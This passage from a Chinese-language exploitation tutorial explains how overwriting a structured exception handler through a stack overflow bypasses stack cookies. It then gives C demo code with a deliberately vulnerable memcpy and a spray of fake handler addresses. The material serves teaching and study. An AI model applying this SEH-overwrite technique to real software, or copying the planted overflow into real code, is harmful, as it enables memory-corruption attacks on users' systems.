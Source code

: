 [![](https://p2.ssl.qhimg.com/t01eb2a440dfbfd1769.png)](https://p2.ssl.qhimg.com/t01eb2a440dfbfd1769.png)

图7 SEH链的堆栈布局

因此，SEH实际上为攻击者提供了绕过堆栈Cookie的理想方法。我们可以利用堆栈溢出，覆盖现有的SHE handler(肯定至少会有一个)，然后让应用程序崩溃(考虑到我们有能力破坏堆栈内存，这肯定不在话下)。这将导致在易受攻击函数最后调用__SECURITY_CHECK_COOKIE之前，EIP被重定向到EXCEPTION_REGISTION_RECORD结构体中被覆盖后的handler地址。因此，在执行shellcode之前，应用程序根本没有机会发现其堆栈已被破坏。 

```
#include

#include

#include



void Overflow(uint8_t* pInputBuf, uint32_t dwInputBufSize) `{`

char Buf[16] = `{` 0 `}`;

memcpy(Buf, pInputBuf, dwInputBufSize);

`}`



EXCEPTION_DISPOSITION __cdecl FakeHandler(EXCEPTION_RECORD* pExceptionRecord, void* pEstablisherFrame, CONTEXT* pContextRecord, void* pDispatcherContext) `{`

printf("... fake exception handler executed at 0x%p\r\n", FakeHandler);

system("pause");

return ExceptionContinueExecution;

`}`



int32_t wmain(int32_t nArgc, const wchar_t* pArgv[]) `{`

uint32_t dwOverflowSize = 0x20000;

uint8_t* pOverflowBuf = (uint8_t*)HeapAlloc(GetProcessHeap(), 0, dwOverflowSize);



printf("... spraying %d copies of fake exception handler at 0x%p to the stack...\r\n", dwOverflowSize / 4, FakeHandler);



for (uint32_t dwOffset = 0; dwOffset &lt; dwOverflowSize; dwOffset += 4) `{`

*(uint32_t*)&amp;pOverflowBuf[dwOffset] = FakeHandler;

`}`



printf("... passing %d bytes of data to vulnerable function\r\n", dwOverflowSize);

Overflow(pOverflowBuf, dwOverflowSize);
```